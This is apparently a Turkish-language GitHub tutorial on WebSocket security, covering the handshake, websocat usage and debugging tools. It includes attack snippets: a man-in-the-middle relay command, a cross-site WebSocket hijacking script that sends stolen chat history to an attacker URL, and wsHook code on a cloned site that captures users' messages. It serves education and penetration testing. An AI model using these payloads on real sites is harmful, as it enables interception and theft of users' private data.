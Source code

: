 # WebSockets Nedir?

WebSockets, genellikle uzun ömürlü olan ve tipik olarak HTTP üzerinden başlatılan bağlantılardır. İletişim her iki yönde de herhangi bir zamanda gerçekleşebilir ve genellikle bağlantı, istemci veya sunucunun bir mesaj göndermeye hazır olduğu ana kadar açık ve boşta kalır. WebSockets, düşük gecikme veya sunucu başlatmalı mesajlar gibi durumlarda kullanışlıdır, örneğin finansal verilerin gerçek zamanlı akışları.

## Neler öğreneceğiz?

- WebSockets Nedir?
- WebSockets Bağlantısı Nasıl Kurulur?
- Linux Konsolu ile WebSocket Bağlantısı Kurma
- WebSocket Bağlantılarını Man-in-the-Middle (MitM) Yapma
- WebSocket Enumerasyonu ve Güvenlik Analizi
- WebSockets Hata Ayıklama Araçları ve İpuçları
- Cross-site WebSocket Hijacking (CSWSH) Tehdidi ve Savunma
- Kullanıcıdan Veri Çalmak İçin WebSocket Saldırıları


## WebSockets Bağlantısı Nasıl Kurulur?

WebSockets bağlantıları genellikle şu şekilde, istemci tarafında JavaScript kullanılarak oluşturulur:

```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```

"**wss**" protokolü, şifreli bir TLS bağlantısı üzerinden WebSocket'i kurar; "**ws**" protokolü ise şifrelenmemiş bir bağlantı kullanır. Bağlantıyı kurmak için tarayıcı ve sunucu, bir HTTP üzerinden WebSocket el sıkışması gerçekleştirir. Tarayıcı, şu şekilde bir WebSocket el sıkışması isteği gönderir:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Eğer sunucu bağlantıyı kabul ederse, şu şekilde bir WebSocket el sıkışması yanıtı döner:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

Bu noktadan sonra ağ bağlantısı açık kalır ve her iki yönde WebSocket mesajları göndermek için kullanılabilir.

## Notlar
WebSocket el sıkışması mesajlarının bazı özellikleri şunlardır:
- İstek ve yanıtın **Connection** ve **Upgrade** başlıkları, bu el sıkışmasının bir WebSocket el sıkışması olduğunu belirtir.
- **Sec-WebSocket-Version** istek başlığı, istemcinin kullanmak istediği WebSocket protokol sürümünü belirtir. Genellikle 13'tür.
- **Sec-WebSocket-Key** istek başlığı, Base64 ile kodlanmış rasgele bir değeri içerir. Bu değer, her el sıkışma isteğinde rasgele olarak oluşturulmalıdır.
- **Sec-WebSocket-Accept** yanıt başlığı, **Sec-WebSocket-Key** istek başlığındaki değerin, protokol spesifikasyonunda tanımlı belirli bir dize ile birleştirilmiş bir karma değeridir. Bu, yanıltıcı yanıtları önlemek için yapılır.
- **Sec-WebSocket-Key** başlığı, önbellek proxy'lerinden kaynaklanan hataları önlemek için kullanılır ve kimlik doğrulama veya oturum yönetimi amacıyla kullanılmaz (Bir CSRF belirteci değildir).

## WebSockets Bağlantısı (Linux)

websocat kullanarak bir WebSocket ile doğrudan bağlantı kurabilirsiniz:

```bash
websocat --insecure wss://10.10.10.10:8000 -v
```

Veya bir websocat sunucusu oluşturmak için:

```bash
websocat -s 0.0.0.0:8000 # Port 8000'de dinle
```

## WebSocket Bağlantılarında Man-in-the-Middle (MitM) Saldırısı

Eğer istemcilerin mevcut yerel ağınızdan bir HTTP WebSocket'ine bağlandığını fark ederseniz, bir ARP Spoofing Saldırısı kullanarak bir MitM saldırısı yapabilirsiniz. İstemci bağlanmaya çalıştığında şunları kullanabilirsiniz:

```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```

## WebSocket Enumerasyonu

[STEWS](https://github.com/PalindromeLabs/STEWS) aracını kullanarak WebSocket'leri otomatik olarak keşfetmek, parmak izlemek ve bilinen güvenlik açıklarını aramak için kullanabilirsiniz.

## WebSocket Hata Ayıklama Araçları

[Burp Suite](https://portswigger.net/burp) web soket iletişimini normal HTTP iletişiminde olduğu gibi MitM destekler.

[Socketsleuth](https://github.com/summitt/Burp-Suite-SocketSleuth) Burp Suite uzantısı, Websocket iletişimlerini daha iyi yönetmenizi sağlar. Geçmişi alabilir, interception kuralları belirleyebilir, eşleştirme ve değiştirme kurallarını kullanabilir, Intruder ve AutoRepeater kullanabilirsiniz.

[WSSiP](https://github.com/PentesterES/WSSiP) (WebSocket/Socket.io Proxy) adlı bu Node.js aracı, istemci ve sunucu arasındaki tüm WebSocket ve Socket.IO iletişimlerini yakalamak, durdurmak, özel mesajlar göndermek ve görüntülemek için bir kullanıcı arayüzü sağlar.

[wsrepl](https://github.com/hypoweb/wsrepl) interaktif bir WebSocket REPL'dir ve özellikle penetrasyon testi için tasarlanmıştır. Gelen WebSocket mesajlarını gözlemlemek ve yeni mesajlar göndermek için bir arayüz sağlar, bu iletişimi otomatikleştirmek için kullanımı kolay bir çerçeve sunar.

[WebSocketKing](https://websocketking.com/) bir web aracıdır ve web soketleri kullanarak diğer web siteleriyle iletişim kurmanıza olanak tanır.

[Hoppscotch](https://hoppscotch.io/realtime/websocket) WebSocket ve diğer iletişim/protokoller için bir web aracı sağlar.

## Cross-site WebSocket Hijacking (CSWSH)

Ayrıca "**cross-origin WebSocket hijacking**" veya "**cross-origin WebSocket hijacking**" olarak da bilinen bu saldırı, WebSocket el sıkışmasında Cross-Site Request Forgery (CSRF) kullanır. Bu, WebSocket el sıkışma isteğinin yalnızca HTTP çerezlerine güvenmesi ve CSRF belirteçleri veya diğer tahmin edilemez değerleri içermemesi durumunda ortaya çıkar.

### Basit Saldırı

Unutmayın ki bir WebSocket bağlantısı kurulduğunda cookie sunucuya gönderilir. Sunucu, örneğin bir mesajla "READY" ifadesi gönderildiğinde kullanıcıya ait bir konuşma geçmişini geri gönderiyorsa, basit bir XSS bağlantısı kurarak (cookie otomatik olarak gönderilecektir) "READY" mesajını göndererek konuşma geçmişini çalabilirsiniz:

```html
<script>
websocket = new WebSocket('wss://websoket-urlsi')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); // Gizli bilgileri almak için mesaj gönder
}

function handleReply(event) {
  // Gizli bilgileri saldırganın sunucusuna gönder
  fetch('https://kendi-makine-urlniz/?'+event.data, {mode: 'no-cors'})
}
</script>
```

## Kullanıcıdan Veri Çalmak

Hedeflenen web uygulamasını taklit etmek için (.html dosyaları gibi) siteyi kopyalayın ve WebSocket iletişiminin gerçekleştiği script içine aşağıdaki kodu ekleyin:

```html
<script src='wsHook.js'></script>

//Bu, bir mesaj gönderilmeden önce veya sunucudan alındıktan sonra çalışacak işlevlerdir
<script>
wsHook.before = function(data, url) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "client_msg?m="+data, true);
    xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
    xhttp.send();
    return messageEvent;
}
</script>
```

Şimdi [wsHook.js](https://github.com/skepticfx/wshook) dosyasını indirin ve web dosyalarının bulunduğu klasörün içine kaydedin.
Web uygulamasını açığa çıkararak ve bir kullanıcının ona bağlanmasını sağlayarak websocket aracılığıyla gönderilen ve alınan mesajları çalabileceksiniz:
```bash
sudo python3 -m http.server 80
```

# Yasal Uyarı!
Bu GitHub deposu, WebSocket teknolojisi üzerinde yapılan saldırılarla ilgili bilgiler içermektedir. Bu bilgiler, siber güvenlik alanındaki profesyoneller ve etik hackerlar için eğitim amaçlı sağlanmaktadır.

**Dikkat:** Bu depo içinde bulunan bilgiler, yalnızca eğitim amaçlıdır ve kötü niyetli kullanım amacı taşımaz. WebSocket saldırıları gerçekleştirilirken yasal düzenlemelere, etik kurallara ve hedef sistemlere izin almadan müdahale etmek yasa dışıdır. Bu depo tarafından sağlanan bilgilerin kötü niyetli kullanımı, yasalar gereğince cezalandırılabilir.
